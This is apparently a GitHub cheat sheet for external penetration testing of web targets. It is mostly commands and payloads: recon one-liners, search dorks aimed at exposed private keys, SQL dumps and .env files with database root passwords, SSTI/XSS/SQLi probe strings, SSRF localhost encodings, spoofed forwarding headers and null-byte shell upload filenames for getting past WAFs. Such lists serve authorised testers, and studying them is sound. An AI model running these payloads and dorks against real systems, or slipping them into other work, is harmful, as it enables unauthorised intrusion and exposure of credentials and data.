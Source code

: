 # External Penetration Testing

## **Tools**

```sh
amass
nmap
gobuster
nikto
Nessus
Burp Suite
```

--- 

## **Passive discovery**

get js script

```bash
go get github.com/tomnomnom/waybackurls
waybackurls internet.org | grep "\.js" | uniq | sort
```

dork on domain

```bash
inurl:example.com intitle:"index of"
inurl:example.com intitle:"index of /" "*key.pem"
inurl:example.com ext:log
inurl:example.com intitle:"index of" ext:sql|xls|xml|json|csv
inurl:example.com "MYSQL_ROOT_PASSWORD:" ext:env OR ext:yml -git
```

get url in file

```bash
cat file | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*"*
in js file => curl http://host.xx/file.js | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*"*
```

---

## **Active discovery**

### Services

```bash
nmap -sS -sV -O --top-ports 1000 --script=banner,nse,http-head
```

### Subdomains

amass

```bash
amass enum -ip -brute -active -d <domain> 
amass viz -maltego -d <domain> -o mydir
```

check if subdomain exist

```bash
cat alive-subdomains.txt | parallel -j50 -q curl -w 'Status:%{http_code}\t Size:%{size_download}\t %{url_effective}\n' -o /dev/null -sk
```

### Vhosts

```bash
nmap --script http-vhosts -p 80,8080,443 <target>
Burp Intruder (Host header)
```

### Urls

```bash
./dirsearch.py -u <target> -e php,html,js,xml -x 500,403
wfuzz -c -z file,/root/wordlist.txt --hc 404 <target>/FUZZ
Burp Pro (Content Discovery)
```

Found asset and params

```bash
assetfinder example.com | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars"; done
```

link finder

```bash
https://github.com/GerbenJavado/LinkFinder
 python linkfinder.py -i https://example.com -d -o cli
```

URL finder

```bash
wget -qO- https://stackoverflow.com/ | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | sort -u
```

Dir Listing dump

```bash
wget -r --no-parent target.com/dir
```

---

## **Injections**

### SSTI

```bash
"<%= 7 * 7 %>"@example.com 
test+(${{7*7}})@example.com
```

### XSS

```bash
test+(<script>alert(0)</script>)@example.com
test@example(<script>alert(0)</script>).com
"<script>alert(0)</script>"@example.com
```

### SQLI

For http://site.com/?q=INJECT_HERE

```bash
/?q=1
/?q=1'
/?q=1"
/?q=[1]
/?q[]=1
/?q=1`
/?q=1\
/?q=1/*'*/
/?q=1/*!1111'*/
/?q=1'||'asd'||'   <== concat string
/?q=1' or '1'='1
/?q=1 or 1=1
/?q='or''='
```

---

## **Bypass WAF**


SSRF localhost

```bash
http://127.1/
http://0000::1:80/
http://[::]:80/
http://2130706433/
http://whitelisted@127.0.0.1
http://0x7f000001/
http://017700000001
http://0177.00.00.01
```

X-Header

```bash
Accept: application/json, text/javascript, */*; q=0.01 
Host : localhost
X-Originating-IP: IP
X-Forwarded-For: IP
X-Remote-IP: IP
X-Remote-Addr: IP
X-Client-IP: IP
X-Host: IP
X-Forwared-Host: IP
```

NullByte

```bash
file.jpg%00shell.php
shell.php%00file.jpg
shell.php%00.jpg
```

---


## **Burp Extenders**

Extension|Description
---|----
`Retire.js`|[find vulnerable JavaScript libraries](https://github.com/PortSwigger/retire-js)